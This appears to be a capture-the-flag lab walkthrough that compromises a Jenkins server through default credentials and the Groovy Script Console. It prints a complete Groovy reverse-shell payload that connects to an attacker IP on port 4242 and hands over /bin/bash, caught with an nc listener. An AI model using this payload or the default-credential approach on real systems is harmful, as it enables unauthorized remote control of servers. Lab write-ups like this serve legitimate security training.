




## 1. Enumeration

- As always, we will be starting with an nmap scan:



- Visit the website at port 8080, we are now presented with a Jenkins web page.
---
### <i>Note</i>
```
Jenkins is a open source automation server. It helps automate the parts of software development related to building, testing and deploying, facilitating 
continuos integration and delivery (CI/CD). It is a server-based system.
```
---

- The only hint of leverage we currently have against this login screen would be to attempt logging in using default
credentials. In the hopes that the server administrators have not yet finished configuring the Jenkins service. We
can perform a Google search for default Jenkins login credentials on a fresh install.
- After attempting multiple combinations from the list, we land on a successful login and are presented with the 
administrative panel for the Jenkins service.

## 2. Foothold

- While searching for Jenkins exposures, we stumble across 2 vital pieces of information:
  - <a href="https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security">A handbook including multiple ways of gaining Jenkins RCE's</a>
  - <a href="https://github.com/gquere/pwn_jenkins">A repo including links to scripts and tools</a>

- In both links provided above, the Jenkins Script Console is mentioned, where what is known as Groovy script can be
written and run arbitrarily. To access it, go to `Manage Jenkins > Script Console`.



## 3. Exploitation

- The objective of our Groovy script implementation will be to receive a reverse shell connection from the target. 
- Since it only executes the Groovy commands, we will need a specially crafted payload, which can be found in 
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">this github cheatsheet</a>

```
String host="{your_IP}";
int port=4242;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- After setting up the `nc` listener on port 4242, we can execute the payload by clicking the `Run` button:



- Going back to our terminal, we can verify that the connection has been established:

